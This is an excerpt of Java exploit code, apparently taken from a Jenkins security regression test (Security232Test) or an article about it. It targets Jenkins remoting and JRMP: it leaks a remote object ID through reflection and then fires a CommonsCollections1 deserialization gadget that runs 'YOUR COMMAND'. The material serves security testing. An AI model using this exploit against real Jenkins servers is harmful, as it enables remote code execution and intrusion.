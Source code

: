             Class<?> rih = Class.forName("hudson.remoting.RemoteInvocationHandler");
            Field oidF = rih.getDeclaredField("oid");
            oidF.setAccessible(true);
            int oid = oidF.getInt(remote);

            System.err.println("* JarLoader oid is " + oid);

            Constructor<UnicastRemoteObject> uroC = UnicastRemoteObject.class.getDeclaredConstructor();
            uroC.setAccessible(true);
            ReflectionFactory rf = ReflectionFactory.getReflectionFactory();
            Constructor<?> sc = rf.newConstructorForSerialization(ActivationGroupImpl.class, uroC);
            sc.setAccessible(true);
            UnicastRemoteObject uro = (UnicastRemoteObject) sc.newInstance();

            Field portF = UnicastRemoteObject.class.getDeclaredField("port");
            portF.setAccessible(true);
            portF.set(uro, jrmpPort);
            Field f = RemoteObject.class.getDeclaredField("ref");
            f.setAccessible(true);
            f.set(uro, new UnicastRef2(new LiveRef(new ObjID(2), new TCPEndpoint("localhost", 12345), true)));

            Object o = reqCons
                    .newInstance(oid, JarLoader.class.getMethod("isPresentOnRemote", Class.forName("hudson.remoting.Checksum")), new Object[] {
                            uro,
                    });

            try {
                c.call((Callable<Object,Exception>) o);
            }
            catch ( Exception e ) {
                // [ActivationGroupImpl[UnicastServerRef [liveRef:
                // [endpoint:[172.16.20.11:12345](local),objID:[de39d9c:15269e6d8bf:-7fc1, -9046794842107247609]]

                e.printStackTrace();

                String msg = e.getMessage();
                int start = msg.indexOf("objID:[");
                if ( start < 0 ) {
                    return; // good, got blocked before we even got this far
                }

                int sep = msg.indexOf(", ", start + 1);

                if ( sep < 0 ) {
                    throw new Exception("Failed to get object id, separator");
                }

                int end = msg.indexOf("]", sep + 1);

                if ( end < 0 ) {
                    throw new Exception("Failed to get object id, separator");
                }

                String uid = msg.substring(start + 7, sep);
                String objNum = msg.substring(sep + 2, end);

                System.err.println("* UID is " + uid);
                System.err.println("* ObjNum is " + objNum);

                String[] parts = uid.split(":");

                long obj = Long.parseLong(objNum);
                int o1 = Integer.parseInt(parts[ 0 ], 16);
                long o2 = Long.parseLong(parts[ 1 ], 16);
                short o3 = Short.parseShort(parts[ 2 ], 16);

                exploit(new InetSocketAddress(isa.getAddress(), jrmpPort), obj, o1, o2, o3, new CommonsCollections1(), "YOUR COMMAND");
            }


[^1]: <http://drops.wooyun.org/papers/17716>
[^2]: <https://github.com/jenkinsci/jenkins/blob/9fce1ee933eb5276baff977d562fc8e183f1c8d6/test/src/test/java/jenkins/security/Security232Test.java>